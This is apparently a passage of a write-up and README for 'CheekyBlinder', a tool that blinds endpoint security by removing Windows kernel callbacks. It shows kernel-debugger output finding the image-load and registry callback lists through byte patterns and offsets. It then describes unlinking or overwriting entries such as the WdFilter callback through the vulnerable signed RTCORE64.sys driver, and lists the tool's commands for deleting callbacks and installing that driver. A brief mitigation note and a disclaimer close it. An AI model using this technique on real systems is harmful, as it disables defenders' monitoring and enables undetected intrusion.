fffff800`a4e5c99d 7476            je      nt!PsSetLoadImageNotifyRoutineEx+0xa5 (fffff800`a4e5ca15)
fffff800`a4e5c99f 8bfb            mov     edi,ebx
fffff800`a4e5c9a1 83ff40          cmp     edi,40h
fffff800`a4e5c9a4 7365            jae     nt!PsSetLoadImageNotifyRoutineEx+0x9b (fffff800`a4e5ca0b)
fffff800`a4e5c9a6 8bc7            mov     eax,edi
<mark>fffff800`a4e5c9a8 488d0dd17c4a00  lea     rcx,[nt!PspLoadImageNotifyRoutine (fffff800`a5304680)]
fffff800`a4e5c9af 4533c0          xor     r8d,r8d
fffff800`a4e5c9b2 488bd6          mov     rdx,rsi
fffff800`a4e5c9b5 488d0cc1        lea     rcx,[rcx+rax*8]</mark>
</pre>

same as the others, we need to make sure the bytes are correct `0x8d48d68b48c03345` and the offset is still the same `0x04` and find 2 functions close to `nt!PsSetLoadImageNotifyRoutineEx` for the byte search.

<pre>
lkd> dq fffff800`a4e5c9af L1
fffff800`a4e5c9af 8d48d68b`48c03345
</pre>

<pre>
lkd> ? nt!PsSetLoadImageNotifyRoutineEx - nt
Evaluate expression: 10865008 = 00000000`00a5c970
</pre>



Based on the screenshot the function `PsSetLoadImageNotifyRoutineEx` is exported and we can use it directly, it wasn't always the case between windows versions. so i will still use `RtlAppendStringToString` as start and `IoInitializeMiniCompletionPacket` as end.

## Registry Callback

For the registry callback its a little bit different where all the callback functions are saved inside a linked list called `nt!CallbackListHead`.

First we need to to find out a function that uses `nt!CallbackListHead` and ideally an exported function to use it in our byte search.

First let's calculate the offset of `nt!CallbackListHead` from the nt base

<pre>
lkd> ? nt!CallbackListHead - nt
Evaluate expression: 15691152 = 00000000`00ef6d90
</pre>

Then in IDA, lets go to that address by going to `Jump => Jump to Address` and use `00ef6d90`



Now we can hover our mouse on `CallbackListHead` => click on it => and then press x for cross reference which will tell us who is actually using that list.



And luckily the first function `CmUnRegisterCallback` is also an exported function, so we can use the following functions as start and end for our search.



<pre>
nt!CmUnRegisterCallback+0x58:
<mark>fffff800`a4baeaa8 488d0de1827400  lea     rcx,[nt!CallbackListHead (fffff800`a52f6d90)]</mark>
fffff800`a4baeaaf e85cd03c00      call    nt!CmListGetNextElement (fffff800`a4f7bb10)
<mark>fffff800`a4baeab4 488bf8          mov     rdi,rax
fffff800`a4baeab7 4889442440      mov     qword ptr [rsp+40h],rax
fffff800`a4baeabc 4885c0          test    rax,rax</mark>
fffff800`a4baeabf 0f848d000000    je      nt!CmUnRegisterCallback+0x102 (fffff800`a4baeb52)
fffff800`a4baeac5 48395818        cmp     qword ptr [rax+18h],rbx
fffff800`a4baeac9 75d5            jne     nt!CmUnRegisterCallback+0x50 (fffff800`a4baeaa0)
</pre>

The bytes will be `0x4024448948f88b48` and we need to substract `0x09` to get to the relative offset address of the callback array which is `007482e1` and read it.

<pre>
lkd> dq fffff800`a4baeabc L1
fffff800`a4baeabc  40244489`48f88b48
</pre>

`nt!CallbackListHead` is a linked list where each entry at offset 0x28 is the function being called.

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
</pre>

It only contains one entry, let's check what's at offset 0x28 of that entry

<pre>
lkd> dqs nt!CallbackListHead L2
fffff800`a52f6d90  ffffd182`c338ff70
fffff800`a52f6d98  ffffd182`c7f74850
lkd> dqs ffffd182`c338ff70 L2
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
lkd> dqs ffffd182`c338ff70 L6
ffffd182`c338ff70  ffffd182`c37c2d30
ffffd182`c338ff78  fffff800`a52f6d90 nt!CallbackListHead
ffffd182`c338ff80  00000000`00000000
ffffd182`c338ff88  01db94d7`cec0b740
ffffd182`c338ff90  00000000`00000000
<mark>ffffd182`c338ff98  fffff800`37f98000 WdFilter+0x28000</mark>
</pre>

We have 2 options to bypass this:

1- Removing the whole link from the linked list => delinking

2- Overwriting the function at offset 0x28 with a KCFG compliant function that just returns rendering the link useless.

## Mitigation
Defenders should not allow any new driver to be loaded onto a system, regardless of whether it is signed or not. If a user requires a driver, it must be reviewed and approved by IT. Security teams should configure their EDR or AV platforms to block any new driver from being loaded unless explicitly approved.

## Usage
<pre>
C:\Users\Vixx\Desktop\Tools\PEN-300\EDR Kernel Bypasses\CheekyBlinder-solution\x64\Release>CheekyBlinder.exe
Usage: CheekyBlinder.exe
 /proc - List Process Creation Callbacks
 /delproc <address> - Remove Process Creation Callback
 /delprocstealth <address> - overwriting the Process Creation function Callback
 /thread - List Thread Creation Callbacks
 /delthread - Remove Thread Creation Callback
 /installDriver - Install the MSI driver
 /uninstallDriver - Uninstall the MSI driver
 /img - List Image Load Callbacks
 /delimg <address> - Remove Image Load Callback
 /reg - List Registry modification callbacks
 /delreg <address> - Remove Registry callback
 /unlinkreg <address> - Remove Registry linked list callback
 </pre>

What's new from the original exploit:

`/unlinkreg` which will delink the callback entry in the linked list.

`/delreg` is now working which will overwrite the callback function in the callback list entry with a kcfg compliant function that does nothing.

`/delprocstealth`  overwriting the Process Creation function Callback with a kcfg compliant function that does nothing.

while we can use the same stealth method for the `img` and `thread` as well, I only did it for the process creation callback and the registry callback.

`RTCORE64.sys` needs to be on the same folder where your exe is.

## Reference
https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
